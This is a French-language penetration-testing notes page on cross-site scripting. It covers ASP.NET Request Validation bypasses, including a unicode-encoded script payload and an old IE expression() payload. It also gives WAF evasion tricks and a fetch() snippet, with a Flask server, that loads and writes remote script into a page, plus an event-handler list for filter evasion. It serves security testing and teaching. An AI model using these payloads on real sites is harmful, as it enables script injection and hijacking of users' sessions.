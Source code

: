 ```yaml
---
title: Cross Site Scripting
permalink: /XSS/
---
```


# Cross-Site Scripting

## Payloads

Voir [PayloadAllTheThings](https://github.com/ruuand/PayloadsAllTheThings/tree/master/XSS%20injection)

## ASP.Net
ASP.Net a le mécanisme de "Request Validation" qui bloque de nombreuses tentatives XSS. Globalement tout payload de la forme "<a" (où a est une lettre ou le caractère ! sera bloqué).

Quelques bypass sont possibles:
- Sur les vieilles versions d'IE le payload <#tag
- Si on a une stored il est possible d'injecter un payload en unicode (voir [Bypassing ASP.NET “ValidateRequest” for Stored XSS attacks](https://infosecauditor.wordpress.com/2013/05/27/bypassing-asp-net-validaterequest-for-script-injection-attacks/)). Ceci est dû à une conversion qui est faite par la base de données (les caractères unicodes étant convertis en leur équivalent "standard"): 
``%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e``
- Sur les vieilles versions de IE et de ASP.net (patch en 2007) le payload suivant marche: ```</XSS STYLE=xss:expression(alert('XSS'))>```

D'autres bypass [Bypassing .Net ValidateRequest](http://www.procheckup.com/media/39734/bypassing-dot-net-validaterequest.pdf)

## Champs hidden

Il est possbible d'exploiter une XSS dans un champ hidden. Voir [XSS in Hidden Input Fields](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html)

## Charger un script distant
Basé sur [Calling remote script with event handlers](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/).

``` javascript
fetch('http://127.0.0.1:5000/').then(function(r){return r.text();}).then(function(w){document.write(w)});
```

Côté serveur (avec flask):

``` python
from flask import Flask, Response
app = Flask(__name__)

@app.route('/')
def root():
    f = open('exploit.html','r')
    response = Response(f.read())
    response.headers['Access-Control-Allow-Origin'] = '*'
    f.close()
    return response
```


## Contournement de WAF

Quelques astuces pour contourner des WAF:

```
a = document; a.write('Test'); // Contourne des restrictions sur document.write*
(a = document); a.write('Test') // Contourne des restrictions sur le ";"
```

## Events JS

Liste d'events JS:

``` text
onAbort
onActivate
onAfterPrint
onAfterUpdate
onBeforeActivate
onBeforeCopy
onBeforeCut
onBeforeDeactivate
onBeforeEditFocus
onBeforePaste
onBeforePrint
onBeforeUnload
onBeforeUpdate
onBegin
onBlur
onBounce
onCellChange
onChange
onClick
onContextMenu
onControlSelect
onCopy
onCut
onDataAvailable
onDataSetChanged
onDataSetComplete
onDblClick
onDeactivate
onDrag
onDragEnd
onDragLeave
onDragEnter
onDragOver
onDragDrop
onDragStart
onDrop
onEnd
onError
onErrorUpdate
onFilterChange
onFinish
onFocus
onFocusIn
onFocusOut
onHashChange
onHelp
onInput
onKeyDown
onKeyPress
onKeyUp
onLayoutComplete
onLoad
onLoseCapture
onMediaComplete
onMediaError
onMessage
onMouseDown
onMouseEnter
onMouseLeave
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMouseWheel
onMove
onMoveEnd
onMoveStart
onOffline
onOnline
onOutOfSync
onPaste
onPause
onPopState
onProgress
onPropertyChange
onReadyStateChange
onRedo
onRepeat
onReset
onResize
onResizeEnd
onResizeStart
onResume
onReverse
onRowsEnter
onRowExit
onRowDelete
onRowInserted
onScroll
onSeek
onSelect
onSelectionChange
onSelectStart
onStart
onStop
onStorage
onSyncRestored
onSubmit
onTimeError
onTrackChange
onUndo
onUnload
onURLFlip
seekSegmentTime
```

## Références
- [JSFuck](http://www.jsfuck.com/)
- [Master the art of Cross Site Scripting](https://brutelogic.com.br/blog/)
- [XSS without event handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/): pour les situations où les events du type onerror sont bloqués
- [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [PassiveXssScan](https://github.com/jkadijk/burp-plugins): un plugin pour identifier automatiquement les éléments "reflected" dans Burp.
- [HTML5sec](https://html5sec.org/)
- [Calling remote script with event handlers](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/)

### Challenges
- [FindBUG XSS Challenge](http://blog.bi.tk/2017/01/20/findbug/)
